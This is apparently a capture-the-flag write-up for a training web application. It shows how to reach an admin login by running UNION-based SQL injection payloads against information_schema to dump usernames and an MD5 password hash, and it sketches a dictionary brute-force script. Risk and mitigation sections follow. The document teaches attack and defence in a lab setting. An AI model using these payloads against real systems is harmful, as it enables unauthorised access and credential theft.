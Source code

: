 # Bruteforce - Admin Member LogIn

A brute force attack consists in an attacker configuring predetermined values, making requests to a server using those values, and then analyzing the response. They are often used for attacking authentication and discovering hidden content/pages within a web application. To authentication, brute force attacks are used when an account lockout policy is not in place.

## Breach type

* A07:2021 - Identification and Authentication Failures
    * CWE-521: Weak Password Requirements

On the specific case of weak password:
* CWE-1391: Use of Weak Credentials
* CWE-330: Use of Insufficiently Random Values		
* CWE-326: Inadequate Encryption Strength

* A03:2021 - Injection
* A01:2021 Broken Access Control
    * CWE-200 Exposure of Sensitive Information to an Unauthorized Actor.

## How to find the flag
* 2 options : 
    * SQL injections :

* Go to the `Members` page

* Display all the tables of the databases with : `105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`

* Discover a table named `db_default` which contains three columns : `id, username, password`

* Try to view its content with the following SQL command `105 OR 1=1 UNION SELECT username, 1 FROM db_default`.
It will return this error message : `Table 'Member_Sql_Injection.db_default' doesn't exist.`
    * We understand that it looks for the content of `db_default` in the wrong database.
    * We now need to find in which database `db_default` is stored

* Use this command to show all the tables and their databases : `105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables`.
    * We now know that `db_default` is part of the `Member_Brute_Force` database

* List all the usernames of `db_default` : `105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default`
    * We find two candidates : admin and root

* List all the password of `db_default`: `105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default`
    * We find hashed data for one specific password : `3bf1114a986ba87ed28fc1b5884fc2f8`
    * We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. 
    * There's 32 characters so it is probably hashed in MD5.
    * It is ! The password is `shadow`

    * Brute Force Attack :

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word `flag` is present in the response of the reconstructed URL : `full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"`

We can now go to the Signin page and log in with :
* Username : `admin`
* Password : `shadow`

## Risks
* Poor password practices, such as using easily guessable passwords like "Password" or "123456", increase the risk of data breaches, identity theft, and business disruption :
    * Attackers exploit unchanged default settings or stolen passwords to gain unauthorized access, leading to data breaches and compromising critical systems.
    * Ineffective password management can lead to financial losses for mid-size businesses through incidents like phishing attacks and malware/ransomware.
    * Legal implications of poor password controls include regulatory non-compliance fines and potential legal costs from data breaches due to inadequate security measures.

## How to avoid
* Use strong, complex passwords that are unique for each account.
* Limit login attempts with account lockout mechanisms.
* Monitor and restrict login attempts from suspicious IP addresses.
* Implement Two-Factor Authentication (2FA) for added security.
* Utilize CAPTCHAs to differentiate between human users and bots.
* Consider using unique login URLs to deter attackers.
* Disable root SSH logins to prevent direct brute force attacks.
* Deploy Web Application Firewalls (WAFs) to block malicious traffic and enforce security policies.

## Sources
* https://cwe.mitre.org/data/definitions/521.html
* https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
* https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/07-Testing_for_Weak_Password_Policy
* https://www.itsasap.com/blog/how-to-prevent-brute-force-attacks
* https://jetpack.com/blog/weak-passwords/
* https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/